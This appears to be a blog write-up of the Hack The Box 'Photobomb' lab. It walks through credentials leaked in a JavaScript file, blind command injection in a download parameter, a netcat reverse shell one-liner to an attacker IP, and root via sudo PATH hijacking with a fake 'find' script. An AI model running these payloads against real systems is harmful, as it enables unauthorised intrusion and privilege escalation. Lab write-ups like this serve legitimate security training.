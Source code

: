 ```yaml
---
layout: post
title: Hack The Box - Photobomb Writeup
date: 2024-06-12 02:00:00 +0100
published: true
categories: [Hack The Box]
tags: [Hack The Box]
---
```


![photobombBadge.png](/assets/img/Photobomb/photobombBadge.png)

## Summary

Inspecting website source code revealed interesting `javascript` file `photobomb.js`. This file contained plain text credentials which granted me access to `/printer` directory. Here can be found download functionality which allows anyone to download photos from gallery. Intercepting download request with `Burp` and testing parameters revealed that `filetype` parameter is vulnerable to blind command injection. By exploiting this, I was able to obtain a reverse shell as user `wizard`. User `wizzard` can run script `/opt/cleanup.sh` with `sudo` privileges. Additionally, `wizard` has `SETENV` which gives me permission to modify certain environment variables like `PATH`.  Inspecting `cleanup.sh` contents revealed that script is running `find` binary without specified path. I was able to leverage this to hijack the path with the use of `SETENV` and trick system to execute my own malicious `find` binary, which spawned a root shell. 
 
___
## Reconnaissance

### Nmap

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### Service Enumeration

| **IP Address** | **Ports Open** |
|-------|--------|
| 10.10.11.180 | **TCP**: 22, 80 |

#### Port 80

##### Technology

```
nginx 1.18.0
```

##### Website

![80.png](/assets/img/Photobomb/80.png)

Clicking on link prompts us for credentials. 

![80.png](/assets/img/Photobomb/80.png)

I tried few default credentials but none of them were valid so I moved on. 
###### Source Code

Inspecting website source code revealed interesting `javascript` file `photobomb.js`.

![80source.png](/assets/img/Photobomb/80source.png)

###### photobomb.js

Looking at the contents of this file, I found comment with plain text credentials for acess to `/printer` directory.

![photobombJS.png](/assets/img/Photobomb/photobombJS.png)

```
pH0t0 : b0Mb!
```

##### /printer directory

With the access to `/printer` directory I was able to download photo from gallery. 

![80printerFinal.png](/assets/img/Photobomb/80printerFinal.png)


___
## Initial Foothold

### Blind Command Injection 

First I intercepted download request using `Burp` for the purpose of testing parameters. Testing `filetype` parameter for command injection throws different error than for other parameters. 

![burpTesting.png](/assets/img/Photobomb/burpTesting.png)

To test if `filetype` parameter is vulnerable to blind command injection, I tried this `URL` encoded payload:

![decoder.png](/assets/img/Photobomb/decoder.png)

![burpRequestPing.png](/assets/img/Photobomb/burpRequestPing.png)

Running `tcpdump` to see all the traffic on my virtual interface revealed incoming `icmp` request from victim host. 

```
sudo tcpdump -i tun0 -vv
```

![tcpdump.png](/assets/img/Photobomb/tcpdump.png)

To further exploit this, I used `URL` encoded reverse shell payload:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.38 7003 >/tmp/f
```

After submitting the payload, I obtained reverse shell as user `wizzard`.

![reverseShell.png](/assets/img/Photobomb/reverseShell.png)

### Upgrading TTY

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
ctrl + z
```
```
stty raw -echo && fg
```
### User.txt

![userFlag.png](/assets/img/Photobomb/userFlag.png)

## Privilege Escalation

### System Enumeration

 User `wizzard` can run script `/opt/cleanup.sh` with `sudo` privileges. Additionally user has `SETENV` which gives him permission to modify certain environment variables like `PATH`. 

```
sudo -l
```

![sudoL.png](/assets/img/Photobomb/sudoL.png)

By inspecting `cleanup.sh`, I discovered that `find` is not specified with full path, which can be abused to perform path hijacking. 

![cleanup.png](/assets/img/Photobomb/cleanup.png)

First I created new `find` binary in `/tmp` directory. New binary is simple bash script that will spawn shell when executed. 

![find.png](/assets/img/Photobomb/find.png)

Adding permissions to newly created `find` binary. 

```
chmod 777 find
```

User has `SETENV` so we can specify path to `/tmp` by adding `PATH=/tmp:$PATH` to `sudo` command. Now when I run `/opt/cleanup.sh` with `sudo` and `PATH` specified to `/tmp` directory, system will first look for `find` binary in the `/tmp` directory where it will find my malicious `find` binary and execute it with `sudo` privileges.

```
sudo PATH=/tmp:$PATH /opt/cleanup.sh
```

![escalation.png](/assets/img/Photobomb/escalation.png)

## Post Exploitation

### Root.txt

![rootFlag.png](/assets/img/Photobomb/rootFlag.png)
